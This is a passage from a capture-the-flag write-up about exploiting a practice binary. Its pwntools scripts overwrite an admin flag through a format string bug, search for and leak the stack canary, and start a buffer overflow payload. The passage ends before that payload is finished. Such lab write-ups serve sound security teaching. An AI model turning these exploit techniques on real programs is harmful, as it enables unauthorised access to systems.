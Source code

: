 ### Canary 🐦

Canary is static all over the program so once we capture it we can use it in one or another function it's not changing. Now how can we get that? Yeah using format string again we just need to find the offset and for that we'll use r2 to see what is the canary by examining fs+0x28 (or something else if it's different in the check) and get the value of that and then manually or automatically we check every offset to the value we got.

```python3
from pwn import *

e = context.binary = ELF("./stack")

isadmin = e.sym["isadmin"]

p = process()

p.sendline(fmtstr_payload(8, {isadmin: 1}))

p.interactive()

# Attach r2 using pid and examine the 16bit value of fs+0x28 and get out of process interactive and put canary in the if below and we got the offset.

for i in range(30):
    try:
        p.sendline('2')
        p.sendline("%"+str(i)+"$p")
        p.recvuntil('Welcome user')
        p.recvline()
        a=p.recvline()
        if b'0xb1d00ccebad82000' in a:
            print(i)
            break
    except Exception as e:
        print(str(e))
```

Read the comment in the code...

## THE BOF xD

now we have the canary offset and able to get to the bof all that is left to do is to find the bof offset and write the exploit.

```python3
from pwn import *

e = context.binary = ELF("./stack")

isadmin = e.sym["isadmin"]

p = process()

p.sendline(fmtstr_payload(8, {isadmin: 1}))
p.recv()
p.sendline(b'2\n%17$p')

p.recvuntil('Welcome user')
p.recvline()

canary=int(p.recvline(),16)

payload = b'\x00'*24 # Padding
payload += p64(canary) # Canary value
```